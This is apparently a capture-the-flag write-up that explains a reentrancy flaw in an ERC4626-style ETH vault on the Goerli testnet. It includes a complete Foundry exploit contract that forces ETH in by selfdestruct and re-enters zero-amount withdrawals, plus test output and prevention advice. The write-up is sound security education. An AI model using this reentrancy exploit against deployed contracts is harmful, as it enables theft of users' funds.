 ## Tool Used:
Foundry

## Github link:
* Private Repo: https://github.com/pratraut/hats_ctf_challenge2
* GitFront link to share above repo: https://gitfront.io/r/savi0ur/FXrAoJA8szhF/hats-ctf-challenge2-gitfront/

## Contract: 
https://goerli.etherscan.io/address/0x8043e6836416d13095567ac645be7C629715885c#code

## Solution:

* Contract's `ERC4626ETH.sol` function - `withdraw` OR `redeem` is vulnerable to re-entrancy.
* Both function `withdraw` AND `redeem`, uses `_withdraw` as common function for performing withrawal/redeem operation.
* Inside `_withdraw` function, Its calculating excess ETH by (total_ETH_balance - total_supply_of_VCT_Token) and this excess ETH will be transfer to actual owner of the vault.
* Vulnerable code from `_withdraw` function:
```solidity
uint256 excessETH = totalAssets() - totalSupply();

_burn(_owner, amount);

Address.sendValue(receiver, amount);
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
As we can see, there are two ETH transfers - one with `amount` and other with `excessETH`. If we can somehow put `excessETH` transfer in call stack while doing reentrancy from the external call we got from first ETH transfer i.e., `amount` transfer, we can drain the vault. To get same `excessETH` value for each reentrancy call, we need `amount` to be equal to zero. So that first ETH transfer wont affect the `excessETH` value for each reentrancy call.
* To get an extra ETH in the contract, there are two ways. One way is using `deposit` OR `mint` function, which will mint `VCT` Token and also increasing ETH balance of a vault. Other way is by forcefully transferring ETH to a vault by self-destroying some dummy contract which is having some ETH. This will increase ETH balance in a vault but not VCT Token supply.
* To get some excess ETH to transfer back to owner of the vault, we need to use 2nd way i.e, forcefully transfering ETH by self-destroying contract.
* We can transfer 1 ETH forcefully. So now we have 2 ETH in a vault and 1 VCT Token(owned by original owner of vault).
* To make balance of vault to 0 ETH, so that we can capture the flag, we need to understand below snippet from `_withdraw` function.
```solidity
function _withdraw(
    address caller,
    address payable receiver,
    address _owner,
    uint256 amount
) internal virtual {
    if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply();

    _burn(_owner, amount);

    Address.sendValue(receiver, amount);
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```
1. First check - `if (caller != _owner)`, since there is no way to get an approval from actual owner, we need to bypass this check by having `caller == _owner. Both vaules are attacker controlled.
2. `uint256 excessETH = totalAssets() - totalSupply();`- Since we have 2 ETH in vault and 1 VCT Token, we get `excessETH = 2 - 1 = 1`. So we get extra ETH to send it back to vault owner.
3. `_burn(_owner, amount);` - In order to bypass burn function, we need to pass `amount = 0` and `_owner = contract_address_of_attacker`. Hence `caller` should also be an address of the attacker's contract. This `_burn` function will not block us when `amount = 0`.
4. `Address.sendValue(receiver, amount);` - Since `amount` is zero, it will send 0 ETH to reciever, As `Address.sendValue()` function is performing `call` on provided address, we get an external call to receiver, which we can make use to re-enter the vault. So this `receiver` address must be attacker controlled contract address, which will let us use `fallback` function when transfering ETH using `call` function.
5. When `excessETH > 0`, it will transfer excessETH to vault owner, which is decrementing balance of vault in ETH.
```
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
6. After step 4, we will accept the 0 ETH transfer from vault in `fallback` function of attackers contract. Which will keep count on the number of times we need to call `withdraw` function to transfer all 2 ETH from contract. In this case it need to call one more time. Since during first `_withdraw` call, transfer of 1st ETH is stored inside call stack. In second call of `withdraw` from fallback function, it will store 2nd ETH transfer inside call stack. After this, no need to re-enter `withdraw` function. Once it will execute, all two transfer from call stack, all 2 ETH are sent to vault owner.
7. Once balance of vault is zero, we can call `captureTheFlag` function with attacker address.

**Note:** Here we have used 1 ETH for forcefull transfer to get `excessETH` of 1 ETH. But we can also use lower ETH (< 1 ETH), say `0.1 ETH`, so we get `0.1 ETH` as `excessETH`. Now we have to re-enter, `1 ETH / 0.1 ETH = 10` times.

## Prevention:
This vulnerability can be prevented by two ways:
* Using `ReentrancyGuard` for vulnerable function `withdraw` OR `redeem`.
* Having check for `assets` OR `shares` parameter of `withdraw` and `redeem` function respectively to be greater than zero.


## Exploit contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IVault {
    function withdraw(
        uint256 assets,
        address receiver,
        address owner
    ) external returns (uint256);
    function captureTheFlag(address newFlagHolder) external;
    function flagHolder() external returns (address);
}

contract SelfDestructable {
    constructor() public payable {}
    function destruct(address to) public {
        selfdestruct(payable(to));
    }
}

contract Attacker {
    IVault vault;
    uint cnt = 0;   // Counter to keep track of number of calls for reentrancy

    constructor(address victim) public payable {
        vault = IVault(victim);
    }

    // Fallback function to receive external call from vault contract
    fallback() external payable {
        if (msg.value == 0) {
            cnt += 1;
        }
        if (cnt <= 1) {
            vault.withdraw(0 ether, address(this), address(this));
        }
    }

    function attack(address flagHolder) public {
        // Forcefully transfer 1 ETH to vault by selfdestructing
        SelfDestructable d = new SelfDestructable{value: 1 ether}();
        d.destruct(address(vault));

        // Calling withdraw on vault with assets = 0 and receiver = attackers contract address
        vault.withdraw(0 ether, address(this), address(this));
        require(address(vault).balance == 0, "vault balance is not zero");
        // Capture the flag, at this moment vault balance is zero        
        vault.captureTheFlag(flagHolder);
        console.log("Flag Holder =", vault.flagHolder());
    }
}
contract CTFTest is Test {
    function setUp() public {       
    }

    function testExploit() public {
        // Vault Address
        address victim = 0x8043e6836416d13095567ac645be7C629715885c;
        // Loading vault with 1 ETH
        vm.deal(victim, 1 ether);
        // Attackers EOA Address
        address attacker_eoa = [ATTACKER_EOA];
        // Loading attackers EOA with 1 ETH
        vm.deal(attacker_eoa, 1 ether);
        // All calls will go from attackers EOA
        vm.startPrank(attacker_eoa);
        console.log("Balance before victim:      ", victim.balance);
        console.log("Balance before attacker EOA:", attacker_eoa.balance);
        // Deploying attacker's contract
        Attacker attacker = new Attacker{value: 1 ether}(victim);
        console.log("Balance before attacker:    ", address(attacker).balance);
        
        // Starting the attack
        attacker.attack(attacker_eoa);

        console.log("Balance after victim:      ", victim.balance);
        console.log("Balance after attacker EOA:", attacker_eoa.balance);
        console.log("Balance after attacker:    ", address(attacker).balance);

        // Check to see if attack is successfull
        assertEq(victim.balance, 0);
    }
}
```
### Command to run - fork environment: 
`forge test -c ./test/CTF.t.sol --fork-url https://ethereum-goerli-rpc.allthatnode.com -vvvv`
```console
Running 1 test for test/CTF.t.sol:CTFTest
[PASS] testExploit() (gas: 501031)
Logs:
  Balance before victim:       1000000000000000000
  Balance before attacker EOA: 1000000000000000000
  Balance before attacker:     1000000000000000000
  Flag Holder = [ATTACKER_EOA]
  Balance after victim:       0
  Balance after attacker EOA: 0
  Balance after attacker:     0
```
